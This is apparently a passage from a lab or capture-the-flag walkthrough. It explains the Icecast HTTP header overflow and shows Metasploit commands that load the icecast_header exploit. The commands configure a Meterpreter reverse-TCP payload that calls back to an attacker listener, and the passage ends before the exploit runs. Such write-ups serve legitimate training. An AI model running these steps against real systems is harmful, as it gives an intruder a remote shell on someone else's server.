 iceexec-adv.txt: The Icecast server accepts a maximum of 32 headers in the clients HTTP
request.

In some environments (like in Win32) a request with more than 31
headers causes the overwriting of the return address of the vulnerable
function with a pointer to the beginning of the 32th header.

In short, is possible to execute remote code simply using the normal
HTTP request plus 31 headers followed by a shellcode that will be
executed directly without the need of calling/jumping to registers or
addresses or using other annoying techniques.

We will use the Metasploit Framework, start it using `msfconsole`
```bash
msf6 > search icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite
msf6 > use exploit/windows/http/icecast_header
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Set the required options: Remote host and local host
```bash
msf6 exploit(windows/http/icecast_header) > set RHOST 10.10.37.29
RHOST => 10.10.37.29
msf6 exploit(windows/http/icecast_header) > set LHOST 10.9.8.180
msf6 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.37.29      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                      t/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.8.180        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
